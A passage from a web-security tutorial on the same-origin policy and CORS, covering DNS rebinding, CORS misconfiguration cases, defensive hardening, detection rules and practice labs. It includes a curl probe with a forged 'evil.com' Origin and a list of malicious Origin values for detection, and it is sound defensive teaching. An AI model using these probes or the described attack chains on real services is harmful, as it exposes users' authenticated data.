opt-in model as everything else.

**COOP / COEP and cross-origin isolation.** `Cross-Origin-Opener-Policy` and
`Cross-Origin-Embedder-Policy` are newer headers that let a document sever references to
cross-origin windows and require all subresources to explicitly opt into being embedded. Setting
both to their strict values puts the page in a **cross-origin isolated** state, which is required
to use powerful APIs (`SharedArrayBuffer`, high-resolution timers) that were restricted after
Spectre. They exist because *timing side channels* can leak cross-origin data even when SOP
blocks direct reads — a reminder that the origin boundary is defended in depth, not by one rule.

**`Access-Control-Allow-Origin: *` is fine for truly public data.** A public CDN or open API that
returns no per-user data can safely send `ACAO: *` — the wildcard just means "anyone may read
this," which is correct for public content. The danger is *only* when credentials/authenticated
data are involved, and the browser's ban on `*` + credentials is precisely there to force you to
name origins in that case.

**DNS rebinding — defeating SOP without breaking it.** SOP compares the *host string*, not the IP.
DNS rebinding abuses that: the attacker controls `evil.com`, whose DNS record they can flip. The
victim loads `http://evil.com`; the attacker's JS keeps the page open while the attacker changes
`evil.com`'s DNS to resolve to `127.0.0.1` (or an internal RFC1918 address like `192.168.1.1`).
The browser, after the TTL expires, re-resolves `evil.com` to the internal IP — but the *origin
string* is still `evil.com`, so from SOP's point of view nothing changed, and the script can now
read responses from the internal service as if same-origin.



This is how attackers reach unauthenticated internal dashboards, routers, and IoT devices that
"only listen on localhost" and therefore skip auth. The defenses live at the *service*, not in
SOP: validate the `Host` header (reject `Host: evil.com` on an internal service), require
authentication even on localhost, and bind sensitive services to interfaces an external DNS name
can't be rebound onto. Tools like `rebind` and `Singularity of Origin` automate the attack for
testing; it's a favorite for SSRF-adjacent internal pivoting.

**Localhost and mixed-content nuances.** Modern browsers treat `http://localhost` as a "secure
context" for some purposes but still apply SOP by origin; and a **mixed-content** page (HTTPS page
loading `http://` subresources) has those subresource loads blocked or upgraded independently of
CORS. These are separate rails from SOP/CORS but often get blamed on them when a `fetch` fails —
always read the exact console error to know which mechanism fired.

---

## Part 11: Real-World Failures and a Chained Exploit

Abstract rules land harder against real incidents. A few representative classes, drawn from
public disclosures and the shape of bugs that recur across bounty programs.

**Reflected origin on an authenticated API (the recurring bounty pattern).** Countless disclosed
reports follow the identical script: an API at `api.target.com` reflects the `Origin` header into
`Access-Control-Allow-Origin` and sets `Access-Control-Allow-Credentials: true` so that "our SPA
and our mobile web wrapper both work." A researcher sends `Origin: https://evil.com`, sees it
reflected, and demonstrates reading the victim's profile, email, or — worst case — an API token
that the endpoint returns. Severity is typically High/Critical because the stolen token unlocks
the rest of the account. The fix in every one of these is the same: exact-match allowlist.

**The trusted-subdomain chain (XSS + CORS).** A more interesting chain: the main API *does* use an
allowlist, but it allowlists `*.target.com` loosely, or a specific subdomain like
`legacy.target.com` that carries an XSS. The attacker doesn't need to forge an origin — they land
JavaScript on the *allowlisted* subdomain via the XSS, and *that* origin is permitted to read the
API with credentials. So a reflected-XSS on a forgotten subdomain becomes full API data
exfiltration through legitimately-granted CORS. This is why "allowlist a whole subdomain tree" is
dangerous: every subdomain's weakest page inherits the CORS trust.



**`Origin: null` from a PDF/sandbox.** Sandboxed iframes, `data:` URIs, documents opened from
`file://`, and certain cross-origin redirects all emit `Origin: null`. Apps that "handle the null
case" by allowlisting it hand an attacker a free pass, because the attacker can *manufacture* a
`null`-origin context (the sandboxed-iframe `srcdoc` trick from Part 6.2). Treat `null` as hostile.

**The takeaway across all of these:** CORS bugs are rarely exotic. They are almost always one of
(a) reflecting the origin, (b) a loose match (`null`, subdomain wildcard, substring), or
(c) trusting a subdomain that has its own bug. Your review checklist is correspondingly short —
which is exactly why this class is so findable, and so worth hardening once and for all.

---

## Part 12: Detection & Defense Angle — Getting Cross-Origin Right

Consolidated defensive guidance, server and client side.

**Server-side CORS hardening:**

- Maintain a **hardcoded allowlist of exact origins**. Never reflect the `Origin` header
  unchecked; never use substring/prefix/suffix/regex-without-anchors matching.
- **Never allowlist `null`.** If a legitimate flow needs it, redesign the flow.
- Only send `Access-Control-Allow-Credentials: true` when you truly need credentialed cross-origin
  access, and then only paired with a specific origin (never `*`).
- Scope `Access-Control-Allow-Methods`/`-Headers` to the minimum needed; keep
  `Access-Control-Max-Age` modest so allowlist changes take effect quickly.
- Remember CORS is **not** access control: enforce authentication and authorization on the
  endpoint regardless of CORS, because non-browser clients ignore CORS.

**Client-side / app hardening:**

- `postMessage`: always check `event.origin` on receive; always pin an exact `targetOrigin` on
  send. Never `"*"` for sensitive data, never trust `e.data` without validating origin.
- Kill JSONP endpoints; migrate to CORS. If one must stay, don't reflect the callback name and
  don't return per-user data.
- WebSockets: validate `Origin` on the handshake and use a per-connection token (defend against
  CSWSH).
- Add `Content-Security-Policy` with `frame-ancestors` (anti-clickjacking), `connect-src`
  (limit fetch targets), and `script-src` (contain XSS); use SRI on third-party scripts.

**Detection (blue team):**



- Log the `Origin` header on API requests; a burst of requests carrying many different or
  obviously-malicious `Origin` values (`evil.com`, `null`, `bank.com.attacker.com`) is CORS
  probing — a scanner testing your allowlist logic.
- Alert if any response ever emits `Access-Control-Allow-Origin` echoing a non-allowlisted origin
  together with `Allow-Credentials: true` — that's your own misconfiguration firing.
- Monitor WebSocket handshakes for foreign `Origin` values as a CSWSH indicator.

---

## Part 13: Final Revision / Summary

- An **origin** is `(scheme, host, port)` — all three must match exactly. Subdomains and ports
  are different origins. A **site** (eTLD+1) is looser; `SameSite` uses site, SOP uses origin, and
  the mismatch is why cookies and SOP don't line up.
- The **Same-Origin Policy** blocks cross-origin **reading** (response bodies, DOM, storage,
  canvas pixels) but **not** sending requests, embedding resources, navigation, CSRF, or
  clickjacking. That send/read asymmetry is why CSRF exists.
- **CORS** is the server opting specific origins into reading its responses, via
  `Access-Control-Allow-*` headers. It **relaxes** SOP; it is not "security on." `ACAO` holds one
  origin or `*`, never a list — so multi-origin support means validating `Origin` against an
  allowlist and echoing the match.
- **Simple vs preflight:** non-simple requests (custom headers, JSON body, `PUT`/`DELETE`) trigger
  an `OPTIONS` preflight the server must approve. This is why a custom header acts as a CSRF
  defense.
- **CORS misconfig** = account takeover: reflecting `Origin` + `Allow-Credentials: true`,
  allowlisting `null`, or sloppy substring matching all let an attacker origin read authenticated
  data. Fix: exact-match allowlist; the browser's `*`+credentials ban forces you there.
- **Other channels:** `postMessage` (check `event.origin`, pin `targetOrigin`), JSONP (legacy
  data-leak/XSS surface — delete it), WebSockets (validate `Origin` to stop CSWSH).
- **Keep the four mechanisms straight:** SOP (read boundary), CORS (grant reads), `SameSite`
  (cookie auto-send / CSRF), framing controls (clickjacking). Misattributing a defense ships a
  gap. And **CORS never replaces server-side authorization** — non-browser clients ignore it.

---

## Part 14: Cheat Sheet / Quick Reference

**Origin = scheme + host + port (all three exact).** Site = eTLD+1 (looser).

**SOP blocks / allows**

| Blocks (cross-origin) | Allows (cross-origin) |
|---|---|
| read fetch/XHR body | send fetch/form request |
| read cross-origin DOM | embed img/script/iframe |
| read cookies/localStorage | navigation |
| read tainted canvas pixels | postMessage (explicit) |

**CORS response headers**

```http
Access-Control-Allow-Origin: https://app.example.com   # one origin or *
Access-Control-Allow-Credentials: true                  # never with *
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: content-type, authorization
```

**Test for the account-takeover misconfig**

```bash
curl -sI https://api.target/endpoint -H "Origin: https://evil.com" | grep -i access-control
# BAD if ACAO reflects evil.com AND Allow-Credentials: true
```

**CORS bug patterns**

| Pattern | Why bad |
|---|---|
| reflect Origin + credentials | any site reads authed data |
| allow `null` | sandboxed iframe forces it |
| `endsWith`/`startsWith`/`includes` match | `bank.com.evil.com` etc. |
| `*` + credentials | browser forbids (fix forces allowlist) |

**postMessage safe pattern**

```javascript
// send
w.postMessage(data, "https://trusted.com");
// receive
onmessage = e => { if (e.origin !== "https://trusted.com") return; use(e.data); };
```

**Defense mapping:** CSRF→SameSite+tokens · clickjacking→frame-ancestors/XFO · cross-origin
read→SOP · granted read→CORS allowlist.

---

## Part 15: Common Pitfalls

- **Thinking SOP stops CSRF.** It doesn't — the request is still sent with cookies. Use
  `SameSite` + CSRF tokens.
- **Thinking CORS protects the server.** It only governs *browser* script reads. curl/Burp ignore
  it. Enforce real authz server-side.
- **Reflecting the `Origin` header.** The #1 CORS bug. With credentials it's account takeover.
  Use an exact allowlist.
- **Allowlisting `null`.** Attacker forces `Origin: null` from a sandboxed iframe. Never allow it.
- **Substring/prefix/suffix origin checks.** `endsWith("bank.com")` matches `evilbank.com`. Only
  exact full-origin matches are safe.
- **`postMessage` without an origin check on receive**, or sending sensitive data with
  `targetOrigin: "*"`. Both leak/inject cross-origin.
- **Leaving JSONP endpoints alive.** They leak data cross-origin by design and often reflect the
  callback into script. Delete them.
- **WebSocket auth by cookie only, no `Origin` check.** → Cross-Site WebSocket Hijacking.
- **Confusing origin and site.** `app.x.com` and `api.x.com` are the same *site* but different
  *origins*; CORS still applies between them.
- **Assuming `ACAO: *` is always dangerous.** It's fine for truly public, non-credentialed data;
  the danger is only `*`-thinking applied to authenticated endpoints.

---

## Part 16: Practice Labs & Resources

- **PortSwigger Web Security Academy** — the *CORS* topic has the canonical labs: basic
  origin-reflection with credentials, `null`-origin trust, and trusted-insecure-subdomain
  chaining (XSS on an allowlisted subdomain → steal via CORS). The *Clickjacking* and
  *CSRF* topics reinforce the "what SOP does not stop" boundary. *WebSockets* topic covers CSWSH.
- **OWASP Juice Shop** — has CORS and postMessage-flavored challenges to hunt end to end with
  Burp.
- **TryHackMe** — *Cross-Site Scripting* and *OWASP Top 10* rooms exercise the SOP/CORS/CSP
  interplay; the *Web Application Security* path covers CORS misconfig.
- **Your own lab** — the Flask `corsapi.py` from Part 8: toggle between origin-reflection and the
  exact-match allowlist and re-run the curl test and the browser exploit to *see* the boundary
  move.
- **Tooling:** Burp Suite (Repeater to fuzz the `Origin` header; the **CORS\*** scanner checks),
  the browser devtools **Console/Network** tabs (read the exact CORS error and which header was
  missing), and `curl -H "Origin: ..."` for headless confirmation.

**Practice questions / mini-labs to self-test:**

1. `https://a.example.com:443` and `https://a.example.com` — same origin or not, and why? Now
   change the second to `http://a.example.com` — what breaks and which SOP field caused it?
2. An API responds `Access-Control-Allow-Origin: https://evil.com` when you send that `Origin`,
   with `Allow-Credentials: true`. Write the browser exploit that steals the victim's account
   data and name the exact server fix.
3. Explain precisely why adding an `X-CSRF: 1` header makes a cross-site `fetch` safer, referring
   to simple vs preflight requests.
4. A `message` event listener does `document.getElementById('out').innerHTML = e.data`. Show the
   attacker page that exploits it and the one-line fix.
5. Your teammate says "we enabled CORS, so the endpoint is now secure against unauthorized
   access." Explain why that sentence is wrong in two different ways.
